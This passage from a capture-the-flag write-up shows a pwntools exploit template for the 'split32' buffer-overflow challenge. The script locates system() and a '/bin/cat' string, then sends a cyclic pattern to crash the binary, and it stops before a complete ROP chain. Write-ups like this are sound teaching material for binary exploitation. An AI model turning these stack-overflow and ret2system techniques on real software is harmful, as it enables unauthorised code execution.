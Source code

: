 ### Automating This Entire Process with pwntools

`exploit.py`:

* We can use `pwn template` to generate the setup for us

```python
#!/usr/bin/env python3

from pwn import *

# SETUP

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
            return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
         return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Target binary
exe = './split32'

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)

# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

#Delete core files once finished
context.delete_corefiles = True

# ===========================================================
#                     EXPLOIT GOES HERE
# ==========================================================

# Payload structure: padding (44) + system() address + offset for "/bin/cat flag.txt"

io = start()

# Locate the functions/strings we need
sys_addr = elf.symbols['system']
binCat_addr = next(elf.search(b'/bin/cat')) # Need to research next()

# Print out the target address
info("%#x system", sys_addr)
info("%#x /bin/cat", binCat_addr)

# Send a cyclic pattern of 100-bytes to the input of the target binary and overwrite the address on the stack
payload = cyclic(100)

# Send exploit
io.sendlineafter('>', payload)

# Wait for the process to crash
```